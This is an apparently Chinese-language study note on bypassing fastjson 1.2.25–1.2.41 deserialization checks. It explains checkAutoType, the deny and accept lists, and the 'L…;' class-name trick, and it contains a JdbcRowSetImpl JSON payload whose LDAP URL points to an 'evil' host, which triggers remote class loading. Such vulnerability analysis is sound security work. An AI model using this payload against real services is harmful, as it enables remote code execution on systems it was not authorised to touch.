






# fastjson 1.2.25-1.2.41

前面PayLoad能成功触发，主要是fastjson的AutoType机制，即用户可以控制要反序列化的类`@type`

**FastJson1.2.25** 中引入了`checkAutoType`安全机制，且默认关闭`autoTypeSupport`，不能反序列化任意类。就算打开了`AutoType`，也有内置的黑名单来防止恶意反序列化，fastjson还提供了添加黑名单的接口。

查看该版本的`com.alibaba.fastjson.parser.ParserConfig`

* autoTypeSupport：是否开启任意类的反序列化，默认false
* denyList：反序列化黑名单
* acceptList：反序列化白名单

正常情况有两种方式开启AutoType

* JVM启动参数
  `-Dfastjson.parser.autoTypeSupport=true`
* 代码设置
  `ParserConfig.getGlobalInstance().setAutoTypeSupport(true); `

`DefaultJSONParser#parseObject`中增加了`config.checkAutoType()`

若开了`autoType`，先检验白名单，若命中直接加载类，接着再检验黑名单

黑名单如下：

但最后还是判断了一遍`autoTypeSupport`，false抛出异常

绕过：类名添加`L`和`;`（需开启`AutoTypeSupport`）

> { 
>
> ​	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

`checkAutoType` 跟进 `TypeUtils.loadClass`

若以`L`开头，以`;`结尾，去除这两个字符后再加载类。

# fastjson 1.2.42

